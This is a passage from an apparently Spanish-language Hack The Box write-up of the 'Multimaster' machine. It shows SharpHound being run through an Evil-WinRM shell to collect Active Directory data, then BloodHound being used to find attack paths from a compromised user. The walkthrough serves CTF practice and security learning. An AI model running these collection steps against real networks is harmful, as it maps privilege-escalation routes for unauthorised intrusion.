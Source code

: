 Una vez tengamos el archivo en la maquina victima lo ejecutamos y este nos generara un archivo `.zip` que abriremos en `bloodhound`

```powershell
*Evil-WinRM* PS C:\WIndows\Temp\Privesc> .\SharpHound.exe -c All
2023-04-02T09:45:51.8354209-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-04-02T09:45:51.9916814-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote

*Evil-WinRM* PS C:\WIndows\Temp\Privesc> dir


    Directory: C:\WIndows\Temp\Privesc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/2/2023   9:47 AM          14062 20230402094551_BloodHound.zip
-a----         8/3/2022   9:21 AM        1060864 SharpHound.exe
-a----         4/2/2023   9:47 AM          13225 YThiODEyNWUtMTcwMC00YWY2LTgwZmYtNmIxMWU0MTM4ZDg5.bin
```

Subimos el `.zip` a bloodhound 

![](/assets/images/HTB/htb-writeup-Multimaster/multi8.PNG)


marcamos al usuario `sbauer` como `User as owned` y en analisys pinchamos en la opcion `Shortest Paths form Owned Principals`


